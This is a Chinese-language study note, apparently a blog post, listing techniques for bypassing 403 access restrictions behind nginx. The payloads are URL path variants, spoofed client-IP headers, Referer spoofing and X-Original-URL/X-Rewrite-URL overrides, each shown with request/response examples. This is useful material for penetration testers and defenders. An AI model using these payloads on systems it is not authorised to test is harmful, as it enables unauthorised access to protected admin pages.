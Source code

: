 一直想学习下403绕过，换了新公司后终于有时间可以学习下

简单概括下漏洞原理：
当下的软件部署方式通常是nginx在前端做反向代理，后端用java或php开发，开发者一般通过nginx识别访问端ip，以此限制对接口的访问，我们可以利用nginx在权限校验方面的缺陷，来绕过限制，具体如下：

# 01 修改URL扩展名
```
site.com/admin => 403

site.com/admin/ => 200
site.com/random-dir/../admin => 200
site.com/random-dir/..;/admin => 200
site.com/random-dir/..%252F/admin => 200
site.com/admin// => 200
site.com//admin// => 200
site.com/admin/* => 200
site.com/admin/*/ => 200
site.com/admin/. => 200
site.com/admin/./ => 200
site.com/./admin/./ => 200
site.com/admin/./. => 200
site.com/admin/./. => 200
site.com/admin? => 200
site.com/admin?? => 200
site.com/admin??? => 200
site.com/admin..;/ => 200
site.com/admin/..;/ => 200
site.com/%2f/admin => 200
site.com/%2e/admin => 200
site.com/admin%20/ => 200
site.com/admin%09/ => 200
site.com/%20admin%20/ => 200
site.com/%0dadmin => 200
```
# 01 修改代理IP
```
- X-Originating-IP: 127.0.0.1
- X-Remote-IP: 127.0.0.1
- X-Client-IP: 127.0.0.1
- X-Forwarded-For: 127.0.0.1
- X-Forwared-Host: 127.0.0.1
- X-Host: 127.0.0.1
- X-Custom-IP-Authorization: 127.0.0.1
```
示例代码
```
Request
GET /auth/login HTTP/1.1
Response
HTTP/1.1 401 Unauthorized

Reqeust
GET /auth/login HTTP/1.1
X-Custom-IP-Authorization: 127.0.0.1
Response
HTTP/1.1 200 OK
```
# 02 修改Referer标头
Referer请求头包含了当前请求页面的来源页面的地址，即表示当前页面是通过此来源页面里的链接进入的。服务端一般使用 Referer 请求头识别访问来源，示例代码如下：
```
Request
GET /auth/login HTTP/1.1
Host: xxx
Response
HTTP/1.1 403 Forbidden

Reqeust
GET / HTTP/1.1
Host: xxx
Referer:https://xxx/auth/login
Response
HTTP/1.1 200 OK

or

Reqeust
GET /auth/login HTTP/1.1
Host: xxx
Referer:https://xxx/auth/login
Response
HTTP/1.1 200 OK
```
# 03 覆盖请求URL
如果目标支持X-Original-URL和X-Rewrite-URL标头，用户可以使用X-Original-URL或X-Rewrite-URL请求标头覆盖请求URL中的路径，尝试绕过对更高级别的缓存和Web服务器的限制，示例代码如下：
```
Request
  GET /auth/login HTTP/1.1
  Response
  HTTP/1.1 403 Forbidden

Reqeust
  GET / HTTP/1.1
  X-Original-URL: /auth/login
  Response
  HTTP/1.1 200 OK

or

Reqeust
  GET / HTTP/1.1
  X-Rewrite-URL: /auth/login
  Response
  HTTP/1.1 200 OK

```
# 04 修改HOST（这块原文讲的不是很清楚，看到的不是很明白）
我们先说下Host在请求头中的作用，在一般情况下，几个网站可能会部署在同一个服务器上，或者几个web系统共享一个服务器，通过host头来指定应该由哪个网站或者web系统来处理用户的请求。而很多 WEB 应用通过获取 HTTP HOST 头来获得当前请求访问的位置，但是很多开发人员并未意识到 HTTP HOST 头由用户控制，从安全角度来讲，任何用户输入都是认为不安全的。
# 05 端口利用
全端口扫描后，在其他端口可能会发现可未授权访问的web系统

# 参考文章

https://blog.csdn.net/st3pby/article/details/128485994